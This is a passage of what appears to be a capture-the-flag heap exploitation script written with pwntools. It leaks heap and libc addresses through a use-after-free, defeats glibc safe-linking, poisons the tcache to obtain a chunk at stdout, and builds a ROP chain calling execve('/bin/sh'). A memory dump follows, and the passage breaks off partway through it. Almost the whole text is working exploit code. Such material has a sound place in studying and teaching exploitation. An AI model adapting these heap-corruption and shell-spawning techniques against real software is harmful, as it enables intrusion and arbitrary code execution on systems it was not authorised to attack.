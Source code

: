 ```py

free(0)

view(0)

heap = ((pwn.u64(io.recvline()[:-1].ljust(8, b"\x00")) << 12))  
pwn.log.info(f"heap @ {hex(heap)}")  
# then we defeated safe linking lol

alloc(0, b"YY", 0x100)  
# request back the chunk we used to leak the heap

alloc(7, b"YY", 0x100) # prev  
alloc(8, b"YY", 0x100) # a

alloc(9, b"/bin/sh\0", 0x10) # barrier

# fill tcache  
for i in range(7):  
   free(i)

free(8) # free(a) => unsortedbin  
free(7) # free(prev) => merged with a

# leak libc  
view(8)

libc = pwn.u64(io.recvline()[:-1].ljust(8, b"\x00")) - 0x219ce0 # - 0x1bebe0 #
offset of the unsorted bin

rop = pwn.ROP(libc)  
binsh = next(libc.search(b"/bin/sh\x00"))  
rop.execve(binsh, 0, 0)

environ = libc.address + 0x221200  
stdout = libc.address + 0x21a780

pwn.log.info(f"libc: {hex(libc)}")  
pwn.log.info(f"environ: {hex(environ)}")  
pwn.log.info(f"stdout: {hex(stdout)}")

alloc(0, b"YY", 0x100) # pop a chunk from the tcache to let an entry left to a  
free(8) # free(a) => tcache

alloc(1, b"T"*0x108 + pwn.p64(0x111) + pwn.p64((stdout ^ ((heap + 0xb20) >>
12))), 0x130)  
# 0x130, too big for tcache => unsortedbin UAF on a to replace a->next with
the address of the target location (stdout)  
alloc(2, b"TT", 0x100)  
# pop a from tcache

# next 0x100 request will return the target location (stdout)

"""  
0x55c4fbcd7a00: 0x0000000000000000      0x0000000000000141 [prev]  
0x55c4fbcd7a10: 0x5454545454545454      0x5454545454545454  
0x55c4fbcd7a20: 0x5454545454545454      0x5454545454545454  
0x55c4fbcd7a30: 0x5454545454545454      0x5454545454545454  
0x55c4fbcd7a40: 0x5454545454545454      0x5454545454545454  
0x55c4fbcd7a50: 0x5454545454545454      0x5454545454545454  
0x55c4fbcd7a60: 0x5454545454545454      0x5454545454545454  
0x55c4fbcd7a70: 0x5454545454545454      0x5454545454545454  
0x55c4fbcd7a80: 0x5454545454545454      0x5454545454545454  
```